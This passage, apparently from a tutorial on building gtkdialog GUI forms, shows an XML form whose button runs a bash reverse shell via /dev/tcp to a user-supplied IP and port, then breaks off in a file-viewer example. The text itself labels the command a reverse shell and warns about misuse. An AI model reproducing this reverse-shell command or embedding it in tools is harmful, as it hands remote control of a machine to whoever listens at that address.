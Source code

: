    ```xml
        <action>
          # Ensure that both fields are filled
          if [ -z "$IP_ADDRESS" ] || [ -z "$PORT_NUMBER" ]; then
            zenity --error --text="Both IP Address and Port Number are required."
            exit 1
          fi

          # Construct the command
          CMD="/bin/bash -i >& /dev/tcp/$IP_ADDRESS/$PORT_NUMBER 0>&1"

          # Execute the command
          eval "$CMD"
        </action>
      </button>
    </hbox>
  </vbox>
</window>

   ```

   ### Explanation

   - **IP Address and Port Number Inputs**: Uses `entry` widgets to capture the IP address and port number.
   - **Button Action**: Checks if both fields are filled. If they are, it constructs and executes the Bash command using the provided IP address and port number.

2. **Run `gtkdialog` with the XML File**:

   Execute the form using `gtkdialog`:

   ```bash
   gtkdialog --file connect_form.xml
   ```

### Notes

- **Security Considerations**: The command `/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1` is used to create a reverse shell connection. Be extremely cautious with executing such commands, as they can be used for malicious purposes. This command opens a reverse shell to the specified IP and port, which could compromise system security.
- **Permissions**: Ensure you have the necessary permissions to execute `gtkdialog` and network commands on your system.
- **Dependencies**: Ensure `gtkdialog` is installed on your system. You can install it using your package manager (e.g., `sudo apt-get install gtkdialog`).

This example demonstrates how to use `gtkdialog` to create a simple graphical form for interacting with the system, but always be mindful of the security implications of running arbitrary commands.

### Display contents of a file

```xml
<window>
  <vbox>
    <text><label>Select a file to view its contents:</label></text>
    <hbox>
      <file>
        <variable>SELECTED_FILE</variable>
        <action>echo "File selected: $SELECTED_FILE"</action>
      </file>
      <button>
        <label>Open</label>
        <action>
          # Ensure a file is selected
          if [ -z "$SELECTED_FILE" ]; then
            zenity --error --text="No file selected."
```